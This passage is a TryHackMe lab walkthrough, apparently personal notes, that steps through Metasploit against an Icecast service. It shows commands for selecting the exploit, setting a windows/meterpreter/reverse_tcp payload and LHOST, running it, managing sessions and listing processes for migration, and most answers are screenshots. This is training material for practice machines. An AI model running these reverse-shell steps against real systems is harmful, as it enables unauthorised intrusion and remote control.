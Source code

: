 ---------------------

<h4>Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results. 


<h5>Cevap:

![](https://raw.githubusercontent.com/cagatayceyhan/terminal_Img/main/m7.PNG)

---------------------

<h4>Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.

<h5>Cevap:

![](https://raw.githubusercontent.com/cagatayceyhan/terminal_Img/main/m8.PNG)

---------------------

<h4>Let's go ahead and return to our previous exploit, run the command use icecast to select it again.


<h5>Cevap:

![]()

---------------------

<h4>Once you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.

<h5>Cevap:

![](https://raw.githubusercontent.com/cagatayceyhan/terminal_Img/main/m10.PNG)


---------------------

<h4>After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER

<h5>Cevap:

![](https://raw.githubusercontent.com/cagatayceyhan/terminal_Img/main/m11.PNG)

---------------------

<h4>First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command ps. What's the name of the spool service?


<h5>Cevap:spoolsv.exe
